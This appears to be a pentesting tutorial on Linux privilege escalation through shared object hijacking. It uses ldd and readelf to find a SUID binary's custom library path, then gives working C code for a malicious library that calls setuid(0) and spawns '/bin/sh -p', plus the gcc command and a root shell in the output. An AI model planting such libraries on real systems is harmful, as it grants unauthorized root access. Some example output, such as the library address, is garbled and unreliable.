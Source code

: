 # Shared Object Manipulation

A **shared object** is a compiled binary file that contains code and data that can be shared among multiple programs. In Unix-like operating systems, shared objects are typically represented by files with the `.so` (shared object) extension. They allow programs to utilize common libraries, reducing redundancy and saving memory, as multiple programs can load the same shared object into memory at runtime.

Some Binaries or programs might have custom object/libraries associated with them.\
If we have access to manipulate the custom object used by such program, we can get escalate privilege.

## Example

```
user@pc1:~$ ls -la dbs
-rwsr-xr-x 1 root root 1000 Nov  2 15:05 dbs
```

lets say there is a library with suid bit set.

### Viewing the shared object required for specific binary

Using `ldd` we can view the shaed object required.

```
user@pc1:~$ ldd dbs

.............................
libshared.so => /lib/x86_64-linux-gnu/thisislibrary.so (0x00007adf777654dsfaasdf)
.............................
.............................
```

from the output we can see, dbs binary's non standard library `thisislibrary.so`

Using `readelf` tool we can look at the path for the shared libraries.

```
user@pc1:~$ readelf -d dbs  | grep PATH
 0x00000000000000 (RUNPATH)            Library runpath: [/dollarboysushil]
```

From the output, we can say custom library is imported from `/dollarboysushil` directory

If we have write access to this directory, then we can add malicious library in this directory.

```c
#include<stdio.h>
#include<stdlib.h>

void dbquery() {
    printf("Hacked by dollarboysushil");
    setuid(0);
    system("/bin/sh -p");
} 
```

Compiling this malicious library

```
gcc malicious.c -fPIC -shared -o /dollarboysushil/thisislibrary.so
```

Now when we run the dbs binary, we will get shell as root.

```
root@pc1:~$ ./dbs 
Hacked by dollarboysushil
# whoami
root

```

